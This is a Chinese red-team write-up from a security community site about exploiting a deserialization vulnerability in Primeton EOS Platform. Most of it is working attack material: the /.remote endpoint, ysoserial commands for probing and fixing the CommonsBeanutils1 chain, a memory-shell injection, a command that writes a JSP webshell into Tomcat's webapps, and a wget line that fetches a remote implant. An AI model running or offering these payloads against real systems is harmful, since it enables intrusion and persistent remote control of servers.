# 奇安信攻防社区 - 记一次普元 Primeton EOS Platform 反序列化漏洞的利用链报错问题调整

### 记一次普元 Primeton EOS Platform 反序列化漏洞的利用链报错问题调整

在某演练中，普元 Primeton EOS Platform 反序列化漏洞反序列化返回 serialVersionUID 对应不上的问题的一次调整，详细操作如下，为师傅们避坑

# 普元 Primeton EOS Platform 反序列化漏洞

## 一、漏洞复现探测

漏洞路由/.remote

```php
10.95.209.59:8080/default/.remote
```



1su18-探测反序列化利用链--选择使用全部类探测

[https://github.com/su18/ysoserial/](https://github.com/su18/ysoserial/)



坑点注意--单引号生成的大小再 windows 里会小了 3kb 导致失败

```php
正确的双引号
java -jar ysuserial-0.9-su18-all.jar -g URLDNS -p "all:gbs.dnslog.pw" >dnslog2223.ser
失败的单引号
java -jar ysuserial-0.9-su18-all.jar -g URLDNS -p 'all:gbs.dnslog.pw' >dnslog2223.ser
```



```php
POST /default/.remote HTTP/1.1
Host: 10.95.209.59:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



成功 dnslog



## 二、遇到的问题--serialVersionUID 对应不上的问题

没有延时并返回 serialVersionUID 对应不上的问题

serialVersionUID = 2573799559215537819

```php
java -jar ysoserial-for-woodpecker-0.5.2-all.jar -g CommonsBeanutils1 -a "sleep:10" >CommonsBeanutils1.ser
```



使用延时探测是否存在--可以看到报错



## 三、解决问题--魔改 yso

gv7 探测利用链--类的列表的两篇文章

[https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils)

[https://github.com/su18/ysoserial/](https://github.com/su18/ysoserial/)



原来的`ysoserial-for-woodpecker-0.5.2-all.jar`是 cb1.9.2 的



查阅网上资料

[https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils)

发现当 CommonsBeanutils 版本 1.7.0 <= <= 1.8.3 的时候 suid 为 2573799559215537819 正好与目标环境对得上



并通过延时探测 org.apache.commons.beanutils.ConstructorUtils 类是否存在

```php
java -jar ysoserial-for-woodpecker-0.5.2-all.jar -g FindClassByBomb -a "org.apache.commons.beanutils.ConstructorUtils|28" >suid.ser
```

成功延时





打包时报错

[https://class.imooc.com/course/qadetail/264587](https://class.imooc.com/course/qadetail/264587)

于是重新打包 ysoserial，把依赖包 commons-beanutils 修改为 1.6 版本对应到目标环境



[https://www.runoob.com/maven/maven-setup.html](https://www.runoob.com/maven/maven-setup.html)

随便下个 zip 去解压填进 path 就可以了

**配好 maven 环境**就去根目录重新执行下面命令

```php
MAVEN_HOME  
D:\apache-maven-3.6.1

path
%MAVEN_HOME%\bin
```

```php
mvn clean package -DskipTests
```



重新使用 cb1.6 打包的 yso 延时探测

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "sleep:10" >CommonsBeanutils1.ser
```



## 四、漏洞利用 - 注入内存马和命令执行无回显写 shell

注入内存马

成功

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "class_file:gslFilterMemshellLoader.class" >gsl.ser
```





命令执行不出网写 shell-如果不会打内存马或者打不成功，那最淳朴的方法就是命令执行--linux 找 web 路径 - 命令执行 echo 写入 webshell

```php
1 || for i in `find / -type d -name WEB-INF| xargs -I {} echo {}.txt`;do echo $i >$i;done
```

`linux_cmd`

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "linux_cmd:1 || for i in `find / -type d -name WEB-INF| xargs -I {} echo {}.txt`;do echo $i >$i;done" >cmd.ser
```

[http://10.95.209.59:8080/examples/WEB-INF.txt](http://10.95.209.59:8080/examples/WEB-INF.txt)

/usr/local/apache-tomcat-8.5.83/webapps/examples/WEB-INF.txt



写 shell

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "linux_cmd:echo base64马子 | base64 -d >/usr/local/apache-tomcat-8.5.83/webapps/examples/gsl33.jsp" >cmd.ser
```



以上都是不出网的打法，当然也可以写 cron 计划任务不过执行两次命令就没必要了，出网的当然可以下马子直接上线就好--这里就不写了和以上的 linux\_cmd 方法一样

```php
wget http://ip/马子 -O /tmp/马子
```
